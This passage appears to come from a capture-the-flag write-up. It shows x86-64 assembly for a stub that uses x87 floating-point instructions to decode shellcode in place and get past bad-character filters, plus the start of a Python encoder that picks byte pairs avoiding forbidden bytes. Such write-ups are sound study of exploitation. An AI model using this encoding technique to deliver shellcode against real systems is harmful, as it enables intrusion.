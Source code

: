 These instructions do not contain bad chars! Furthermore, they allow the use of `rax` as a pointer to the shellcode, enabling us to carve out stage 1. I used a similar trick as in level 5 to check the viability of this technique:

```
bits 64

_start:
jmp _decode
nop
nop                     ; align the encoded shellcode to a dword boundary

_stage1:

_0 dd 0xc3c3c3c3        ; these rets should be transformed into jmp $-2
_1 dd 0x90909090
_2 dd 0x90909090
_3 dd 0x90909090
_4 dd 0x90909090
_5 dd 0x90909090
_6 dd 0x90909090

_8 dd 0x3b283b28        ; funny enough, the constant for the add is the same as for the xor!
_9 dd 0x90909090
_a dd 0x90909090
_b dd 0x90909090
_c dd 0x90909090
_d dd 0x90909090
_e dd 0x90909090

_decode:                ; i'd call this stage 0
xor ecx,ecx             ; clear ecx and rcx
xor ebx,ebx             ; clear ebx
mov cl, (_6-_start)/4   ; starting dword for shellcode 
mov bl, (_e-_start)/4   ; starting dword for decoding constants
_decodeloop:
fild dword [rax+rbx*4]  ; load integer into st0
dec bl
fiadd dword [rax+rcx*4] ; add constant to st0
fistp dword [rax+rcx*4] ; store integer at this position, effectively decoding the instructions
loop _decodeloop        ; use the fact that rcx is now an index and a counter

jmp _stage1             ; jump to -hopefully- decoded shellcode
```

Again, this hangs the remote program, confirming that this is a viable technique. I adjusted `encode.py` to generate the right constants. Prepare for some ultra-hacky python:

```python
import struct

carry = 0
def find_sub_bytes(byte_required):
    global carry
    b = ord(byte_required) - carry  # compensate for possible carry from previously encoded byte
    for i in range(256):
        if i not in badchars:
            c = b - i
            if (c & 0xff) not in badchars:
                carry = 0
                if c < 0:
                    carry = 1   # this carry is necessary, because the if the byte overflows, it is carried over to the next byte. 
                # return the two bytes that encode the required byte
                return chr(i), chr(c & 0xff)
```